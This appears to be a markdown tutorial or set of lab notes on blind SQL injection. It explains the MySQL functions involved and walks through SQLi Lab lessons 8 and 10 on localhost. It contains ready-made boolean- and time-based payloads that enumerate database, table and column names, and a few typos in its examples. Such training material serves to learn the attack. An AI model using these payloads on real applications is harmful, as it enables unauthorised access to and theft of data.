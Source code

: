 <h1 align="center">Blind SQL Injection</h1>

# Boolean Based SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`


## `IF()`

- The IF() function returns a value if a condition is TRUE, or another value if a condition is FALSE

#### Syntax

`IF(condition, value_if_true, value_if_false)`

- eg. ` IF(500<1000, "YES", "NO")`





<br>


<h1 align="center">Practical Lab (Boolean-Based) Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

### 3. Finding Table name 

#### Step by step payload creation

- `AND (ascii(substring()))`

- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

#### Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`



<h1 align="center"> Time-Based Injection</h1>


## Mostly same as Boolean Based Injection and used SQLI lab `lesson 10`



## Payload

`" or if(100<200,sleep(10),Null)-- `

`" or if(ascii(substring(database(),1,1)) = 115,sleep(10),Null)-- -`



